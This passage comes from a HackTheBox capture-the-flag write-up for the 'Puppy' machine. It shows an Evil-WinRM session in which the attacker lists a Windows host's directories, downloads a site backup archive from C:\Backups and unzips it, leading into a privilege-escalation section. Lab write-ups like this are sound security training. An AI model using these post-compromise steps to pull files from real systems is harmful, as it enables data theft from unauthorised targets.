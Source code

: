 A folder called `Backups` located within `C:\` caught our attention.

```shell
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/9/2025  10:48 AM                Backups
d-----         5/12/2025   5:21 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          4/4/2025   3:40 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---          3/8/2025   8:52 AM                Users
d-----         5/13/2025   4:40 PM                Windows
```

The directory contained a `zip-archive` called `site-backup-2024-12-30.zip`.

```shell
*Evil-WinRM* PS C:\Backups> dir


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip
```

We downloaded the file for further investigation.

```shell
*Evil-WinRM* PS C:\Backups> download site-backup-2024-12-30.zip
                                        
Info: Downloading C:\Backups\site-backup-2024-12-30.zip to site-backup-2024-12-30.zip
                                        
Info: Download successful!
```

## Privilege Escalation to steph.cooper
### Investigating site-backup-2024-12-30.zip

The archive contained a `backup` of a `website`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ unzip site-backup-2024-12-30.zip 
Archive:  site-backup-2024-12-30.zip
   creating: puppy/
  inflating: puppy/nms-auth-config.xml.bak  
   creating: puppy/images/
  inflating: puppy/images/banner.jpg  
  inflating: puppy/images/jamie.jpg  
  inflating: puppy/images/antony.jpg  
  inflating: puppy/images/adam.jpg   
  inflating: puppy/images/Levi.jpg   
   creating: puppy/assets/
   creating: puppy/assets/js/
  inflating: puppy/assets/js/jquery.scrolly.min.js  
  inflating: puppy/assets/js/util.js  
  inflating: puppy/assets/js/breakpoints.min.js  
```